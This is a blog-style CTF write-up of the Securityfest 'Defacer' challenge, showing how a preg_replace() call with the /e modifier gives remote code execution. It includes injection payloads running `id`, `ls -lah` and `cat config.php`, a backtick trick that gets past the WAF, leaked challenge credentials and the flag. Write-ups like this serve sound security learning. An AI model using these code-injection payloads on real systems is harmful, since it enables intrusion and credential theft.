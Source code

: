 ```yaml
---
date: 2016-06-08
title: 'Securityfest CTF - Defacer Challenge Writeup'
template: post
slug: securityfest-ctf-defacer-challenge-writeup
categories:
 - CTF Writeup
tags:
 - CTF Writeup
---
```


I actually learned something entirely new on this challenge, I decided I had to do a writeup to share my findings.

If you read my [previous Securityfest CTF writeup](https://dubell.io/securityfest-ctf-coresec-challenge-writeup/) you perhaps know that these challenges were from [securityfest](https://securityfest.com/) held in Sweden, which I attended. I did not solve this particular challenge on time in order to win any prizes, but that didn't stop me from trying to solve it.

The challenge is to get the flag by defacing this website [http://alienzon.com/](http://alienzon.com/) which is protected by *(simple)* [WAF](https://www.owasp.org/index.php/Web_Application_Firewall). I actually spent 4-5 hours on this challenge testing different attack vectors that did not work. I tried SQL injections and XSS attacks all over the place but no joy. So I turned to the place where I thought would be the correct path because it most the most odd part of the website. It was on the *Fun Stuff* page under **Be a hero in a star story!** section. The odd thing about this part is that when you enter your name and click submit, the post request looks like this:
```
who=/Han+Solo/&yourname=Hacker
```

Why are there forward slashes in the request?

After playing with the `who` parameter for quite some time I realized that if I change the parameter to:
```
who=/Han/&yourname=Hacker
```

The story on the next page would say *Hacker Solo*. It didn't click before but now I knew the backend code was most likely using [preg_replace()](http://php.net/manual/en/function.preg-replace.php) to replace the strings. This information at first didn't help me very much, I continued to change the parameter thinking I could perhaps trigger a XSS but nope.

After a while I gave up and just googled *preg_replace exploits*, first website to show up was [http://www.madirish.net/402](http://www.madirish.net/402). According to that website, if the `e` modifier is used with the regular expression, an attacker may have the possibility to execute PHP code. Armed with this new information I crafted this fine request:
```
who=/(Han)/e&yourname=strtoupper($1)
```

I put **Han** in parentheses because that creates a group which you can match with the $1. The `strtoupper()` function simply converts a supplied string to uppercase. I sent the request away and checked the output, *Han* was now *HAN*, it goddamn worked. I now have a [RCE](https://en.wikipedia.org/wiki/Arbitrary_code_execution).

I sent the following request to identify the user running the web server:
```
who=/(Han)/e&yourname=`id`
```

At first I tried double quotes but that didn't work, then I tried single quotes but that got blocked by the WAF. So I tried the *grave accent* character \` and voila, it worked. The user running the web server was `www-data`.

Next was to list all the files in the directory:

```
who=/(Han)/e&yourname=`ls -lah`
```

Then view the config.php file:

```
who=/(Han)/e&yourname=`cat config.php`
```

Which gave me the following:

```
// Set the admin info here!
$admin_username = 'admin';
$admin_password = 'deepspace';
[...]
```

Now I simply login with the above credentials and get the flag:
```
CODE{R3gular_Expr3ssions_Now_You_Have_2_Probl3ms}
```

